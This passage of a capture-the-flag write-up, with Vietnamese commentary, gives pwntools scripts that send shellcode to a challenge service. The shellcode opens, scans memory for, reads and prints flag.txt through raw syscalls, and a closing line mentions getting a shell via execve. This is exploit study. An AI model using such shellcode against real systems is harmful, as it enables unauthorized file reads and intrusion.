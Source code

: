 ```python
"""
sc = asm(f'''
        mov rax, 0x2
        lea rdi, [rip+flag]
        mov rsi, 0x0
        mov rdx, 0x4000
        syscall

        mov rsi,0x7ff000000000
        cmp_loop:
        add rsi,0x1000
        mov rax,0
        mov rdi,3
        mov rdx,0x100
        syscall
        cmp rax,0xfffffffffffffff2
        je cmp_loop

        mov rax,1
        mov rdi,1
        syscall
        flag:
            .string "flag.txt"

         ''')
sc += b'./flag.txt'
input()
print(len(sc)-len(asm('mov rax, 0x2; lea rdi, [rip]+01;')))
p.sendlineafter(b'length\n',b'4093')
p.sendafter(b'Shellcode',sc)


p.interactive()
```

- 1 cách khác là ta có thể tận dụng thanh ghi fs , nó sẽ chứa 1 địa chỉ hữu ích =)) 

```cs
sc2 = asm(f'''
         mov rax,2
         lea rdi,[rip+flag]
         mov rsi,0
         mov rdx,0x4000
         syscall

         mov rsi,fs:0x0
         mov rax,0
         mov rdi,3
         mov rdx,0x100
         syscall

         mov rax,1
         mov rdi,1
         syscall



         flag:
            .string "flag.txt"
         ''')
```
- nếu bài này không hạn chế orw thì ta cũng có thể lấy shell theo cách thực thi libc.sym.execve  : 
